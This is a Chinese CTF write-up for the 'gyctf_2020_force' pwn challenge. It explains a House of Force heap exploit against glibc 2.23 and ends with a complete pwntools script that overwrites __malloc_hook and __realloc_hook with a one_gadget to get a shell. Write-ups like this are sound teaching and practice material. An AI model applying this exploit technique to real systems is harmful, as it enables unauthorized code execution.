 ```
  *i = malloc(size);
  if ( !*i )
    exit(0);
  printf("bin addr %p\n", *i);
  puts("content");
  read(0, (void *)*i, 0x50uLL);
  puts("done");
  return __readfsqword(0x28u) ^ v4;
`}`
```

存在溢出，不限制分配大小，加上题目名称，可以想到House of Force，通过修改top chunk的size位来实现任意地址分配。

首先我们要先想办法获取libc的基址，当我们申请一个极大Chunk时，程序会调用mmap进行内存分配，分配下来的地址之后就是是libc，虽然开启了PIE，但是偏移都是固定的，可以算出libc的基址。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01790fc91504980b00.png)

有了libc的基址，由于开启了FULL RELRO，不能修改got表，那就将one_gadget写入 `__malloc_hook` ，但是这题栈上不满足one_gadget的条件，所以我们可以将one_gadget写入 `__realloc_hook` ，通过realloc来调整帧栈，使其满足条件。

首先我们来修改top chunk的size位，将其修改为最大值，然后算出偏移，抬高top chunk，再进行分配，将其分配到 `__realloc_hook` 附近，然后覆盖 `__realloc_hook` 的值为one_gadget，修改 `__malloc_hook` 的值为 `realloc + 0x10` 的值，借助realloc来调整帧栈，然后进行分配，调用`__malloc_hook` ，`__malloc_hook` 调用 `realloc + 0x10` ，调用 `__realloc_hook` 就能够getshell了。

exp:

```
rom pwn import *

# context(log_level='debug', os='linux', arch='amd64')

io = process('./gyctf_2020_force',env=`{`"LD_PRELOAD": "./libc-2.23.so"`}`)
# io = remote('node3.buuoj.cn', 26073)
libc = ELF('./libc-2.23.so')


def add(size, content):
    io.sendlineafter('2:puts\n', str(1))
    io.sendlineafter('size\n', str(size))
    io.recvuntil('bin addr 0x')
    address = int(io.recv(12), 16)
    io.sendafter('content\n', content)
    return address

libc_base = add(0x200000, 'aaaa\n') +0x200ff0
print(hex(libc_base))
one_gadget = 0x4526a + libc_base
print('one_gadget -&gt; ' + hex(one_gadget))

heap_addr = add(0x18, 'a' * 0x10 + p64(0) + p64(0xffffffffffffffff))
print(hex(heap_addr))

top_chunk = heap_addr + 0x10
malloc_hook = libc.symbols['__malloc_hook'] + libc_base
realloc = libc.symbols["__libc_realloc"] + libc_base
offset = malloc_hook - top_chunk

add(offset - 0x33, 'content')

add(0x10, 'a' * 8 + p64(one_gadget) + p64(realloc + 0x10))
gdb.attach(io)
io.sendlineafter('2:puts\n', str(1))
io.sendlineafter('size\n', str(20))

```